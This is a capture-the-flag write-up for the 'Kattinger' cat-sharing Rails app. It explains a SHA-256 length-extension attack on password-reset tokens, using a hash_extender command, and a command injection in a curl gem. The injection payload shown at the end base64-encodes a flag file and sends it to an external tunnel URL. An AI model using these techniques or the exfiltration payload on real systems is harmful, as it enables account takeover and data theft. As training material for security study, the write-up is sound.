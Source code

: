 # Kattinger

## Description

Fellow cat lovers, I made an app to share out favorites!

## Solution

The application is a platform to share and comment on pictures of cats.

By looking at the source code, we can find that the flag is located in the admin page

```
class AdminController < ApplicationController
  include SessionHelper
  before_action :print_request_info, :require_login
  
  def index
    raise ActionController::RoutingError, 'Unauthorized' if !is_admin?()

    @FLAG = ENV['FLAG'] || 'snakeCTF{REDACTED}'
  end
end
```

To access it, we have to log in with the admin credentials.
In the db folder there's a file `seeds.rb`, which is used to populate the database:

```
User.create([
              { id: 1, username: 'REDACTED', password: 'REDACTEDREDACTEDREDACTED' },
              { id: 2, username: 'one', password: 'supercoolandsafepassword' },
              { id: 3, username: 'two', password: 'supercoolandsafepassword' }
            ])
.....
```

We can see that the admin's username and password are redacted, so we can't find the credentials here.

Reading the file located at `app/controllers/users_controller.rb` we can check how the authentication is handled. In this file we can see something weird going on in the create endpoint: 

```
params[:user][:username] = params[:user][:username].last(8)
```

Why are characters from the username removed? Let's check the model for the user:

```
class User < ApplicationRecord
    has_many :comments
    validates :username, presence: true, length: {maximum: 8}  # We have to save space!!
    validates :password, presence: true, length: {minimum: 16} # but we care about security
end
```

This tells us only the last 8 characters of the username are stored. This is for sure strange, can it be part of the vulnerability?

Moreover, in `user_controller.rb`, we can see how the `reset password` functionality is handled:

```
  def reset_submit
    ...
    #GET
    if request.get?
        render :reset_submit
        return
    else 
    #POST
      ...

      if !check(params[:user][:username], params[:user][:reset_token])
        @message = "Wrong reset token!"
        render :reset_submit, status: :unprocessable_entity
        return
      end
      ...
      @account = User.find_by(username: params[:user][:username].last(8))
      @message = "Sorry, we're still building the application. Your current password is: " + @account.password
      render :reset_submit, status: :gone
      return
    end
  end
```

The `reset_submit` method handles the requests for the password change functionality. We notice that the `check` function validate the token via the provided `username` and `reset_token`. Let's see how it works in the helper:

```
module UsersHelper
    require 'digest'

    def cipher(username)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username
        
        return generator.hexdigest()
    end

    def check(username, token)
        generator = Digest::SHA256::new
        generator << ENV['SECRET'] + username

        return generator.hexdigest() == token
    end
end
```

This scenario is clearly vulnerable to [hash extension attack](https://en.wikipedia.org/wiki/Length_extension_attack), so we just need to find the admin username to exploit it.

To find the username we can fuzz by the ID passed in the user's `show` method, since the accounts are not intended to be secret (notice that you can find someone account by clicking on its name on the comments, but of course the admin has no comments).

The admin can be easily recognized by the `admin` flag in its profile.

![admin account page](admin_account.png)

We can now use a tool called [hash extender](https://github.com/iagox86/hash_extender) to append the admin username to our username and generate a valid reset token.

```
hash_extender --data zqhGqlxi --secret 32 --append 4dm1n_54 --signature 1d7dba0c011a28b5cde8e6542a03fc1a71c006696cdcce827e984b308bab05e9 --format sha256
b4a6d13fef3f701df246049d00a114a11721f8ea4403ad947182bfaac4293ba4 7a716847716c786980000000000000000000000000000000000000000000014034646d316e5f3534
```
The first part of the output is the new reset token, whilst the second is the new username (hex encoded) to submit on the reset page.

After submitting the reset token, we get the admin password.

Going to the admin page, we get the following: `I was joking, read the file /flag`.
So we need to perform one last step to obtain the flag.

Now we're logged in as admin, and the only functionality we gained is in the cat preview page:

![cat on lsd](cat_on_lsd.png)

So let's read how this is implemented in the cat helper:

```
module CatsHelper
    require 'curl'
    require 'rmagick'
    require 'base64'
    require 'timeout'

    include Magick

    def process_image(image_path)        
        p "Processing: " + image_path
        image_path = image_path.encode!("utf-8").scrub()
        if image_path.start_with?('http') || image_path.start_with?('https')
            curl = CURL.new({:cookies_disable => false})
            curl.debug=true
            p image_path
            filename = Timeout::timeout(3) do
                curl.save!(image_path)
            end
            p filename
        else
            filename = image_path
        end
        processed = ImageList.new(image_path)
        processed = processed.solarize(100)
        result = 'data://image;base64,' + Base64.strict_encode64(processed.to_blob())
        File.unlink(filename)
        return result

    end
end
```

We notice that it is using the `curl` library to fetch the image and `rmagick` to process it.
The `curl` gem it's broken AF, we can read its source code [here](https://github.com/tggo/curl/blob/master/lib/curllite.rb):

```
def save!(url,path="/tmp/curl/curl_#{rand}_#{rand}.jpg")
FileUtils.mkdir_p(File.dirname(path))
    cmd = "curl  #{browser_type}   --location --compressed --silent  \"#{url}\" --output \"#{path}\"  "
    puts cmd.red  if @debug	 
	system(cmd)
	path
end
```

This is vulnerable to command injection. By setting the payload to something like `http://www.google.com" && curl "{tunnel.public_url}/$(cat /flag | base64)` as the `image_path` (or `location` in the cat's editing page) and visiting the preview path, we can trigger a request to our endpoint which sends us the flag.
